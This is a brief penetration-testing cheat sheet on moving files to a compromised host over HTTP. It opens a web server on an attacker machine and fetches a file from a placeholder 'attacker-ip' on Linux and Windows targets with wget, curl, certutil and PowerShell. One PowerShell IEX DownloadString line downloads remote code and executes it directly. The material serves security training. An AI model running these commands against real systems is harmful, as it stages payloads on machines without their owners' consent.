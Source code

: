 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Web

### Linux Attacker

Open a Web server on the attacking machine so that the file to be transferred can be downloaded via the target machine.

```bash
# Using Apache:
service apache2 start (/var/www/html/file.exe)

# Using Python 2:
python2 -m SimpleHTTPServer 80

# Using Python 3:
python3 -m http.server 80
```

### Linux Target

Download the file that is on the attacking machine.

```bash
# Using Wget:
wget http://attacker-ip/file.exe -O /tmp/file.exe

# Using Curl:
curl http://attacker-ip/file.exe -o file.exe
```

### Windows Target

Download the file that is on the attacking machine.

```powershell
# Using the Certutil utility:
certutil.exe -urlcache -f http://attacker-ip/file.exe file.exe

# Using PowerShell + Wget:
powershell.exe wget http://attacker-ip/file.exe -OutFile file.exe

# Using PowerShell:
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://attacker-ip/file.exe','file.exe')

# Using PowerShell to send a command in the file to be executed:
powershell.exe IEX(New-Object System.Net.WebClient).DownloadString('http://attacker-ip/poc.txt')
```
